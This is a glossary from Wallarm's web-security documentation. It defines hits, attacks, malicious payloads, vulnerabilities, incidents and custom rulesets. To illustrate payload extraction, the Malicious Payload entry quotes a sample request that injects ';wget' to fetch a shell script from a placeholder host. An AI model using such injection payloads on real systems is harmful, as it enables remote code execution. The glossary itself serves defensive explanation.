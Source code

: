 # Glossary

The glossary covers the core Wallarm entities to provide you with a better understanding of the platform.

## Hit

A hit is a serialized malicious request (original malicious request and metadata added by the filtering node), e.g.:

![Hit example](images/user-guides/events/analyze-attack-raw.png)

[Details on hit parameters](user-guides/events/check-attack.md#attack-analysis_1)

## Attack

An attack is a single hit or multiple hits [grouped](user-guides/events/grouping-sampling.md#grouping-of-hits).

An example of an attack including a single hit:

![Attack with one hit](images/glossary/attack-with-one-hit-example.png)

An example of an attack including many hits:

![Attack with several hits](images/glossary/attack-with-several-hits-example.png)

See [details](user-guides/events/check-attack.md) on how to understand and analyze attacks.

## Malicious Payload

A part of an original request containing the following elements:

* Attack signs detected in a request. If several attack signs characterizing the same attack type are detected in a request, only the first sign will be recorded to a payload.
* Context of the attack sign. Context is a set of symbols preceding and closing detected attack signs. Since a payload length is limited, the context can be omitted if an attack sign is of full payload length.

For example:

* Request:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* Malicious payload:

    ```bash
    ;wget+http://s
    ```

    In this payload, `;wget+` is the [RCE](attacks-vulns-list.md#remote-code-execution-rce) attack sign and another part of the payload is the attack sign context.

Since attack signs are not used to detect [behavioral attacks](about-wallarm/protecting-against-attacks.md#behavioral-attacks), requests sent as a part of behavioral attacks have empty payloads.

## Vulnerability

A vulnerability is an error made due to negligence or inadequate information when building or implementing an API that can lead to an information security risk.

The information security risks are:

* Unauthorized data access; for example, access to read and modify user data.
* Denial of service.
* Data corruption and other.

The Internet traffic can be used to detect the vulnerabilities, which is what Wallarm does, among other functions.

## Security Incident

A security incident is an occurrence of vulnerability exploitation. An incident is an [attack](#attack) targeted at a confirmed vulnerability.

An incident, just like an attack, is an entity external to your system and is a characteristic of the outside Internet, not the system itself. Despite the fact that the attacks targeted at existing vulnerabilities are a minority, they are of the utmost importance in terms of information security. Wallarm automatically detects the attacks targeted at existing vulnerabilities and displays them as a separate object - incident.

## Circular Buffer
A circular buffer is a data structure that uses a single, fixed‑size buffer as if it were connected end‑to‑end.
[See Wikipedia](https://en.wikipedia.org/wiki/Circular_buffer).

## Custom ruleset (the former term is LOM)

A custom ruleset is a set of compiled security rules downloaded by Wallarm nodes from the Wallarm Cloud.

Custom rules enable you to set up individual rules for the traffic processing, e.g.:

* Mask sensitive data before uploading to the Wallarm Cloud
* Create regexp-based attack indicators
* Apply a virtual patch blocking requests that exploit an active vulnerability
* Disable attack detection in certain requests, etc.

A custom ruleset is not empty by default, it contains the rules created for all clients registered in the Cloud, e.g. the filtration mode rule with the value from the [**Settings → General** tab](admin-en/configure-wallarm-mode.md#general-filtration-rule-in-wallarm-console).

[More details on custom rulesets](user-guides/rules/rules.md)

## Invalid Request
A request that was checked by filter node and does not match LOM rules.

## Reverse Proxy
A reverse proxy is a type of proxy server that retrieves resources on behalf of a client from a server and returns the resources to the client as if they originated from the Web server itself.
[See Wikipedia](https://en.wikipedia.org/wiki/Reverse_proxy).

## Certificate Authority
A certificate authority is an entity that issues digital certificates.
[See Wikipedia](https://en.wikipedia.org/wiki/Certificate_authority).
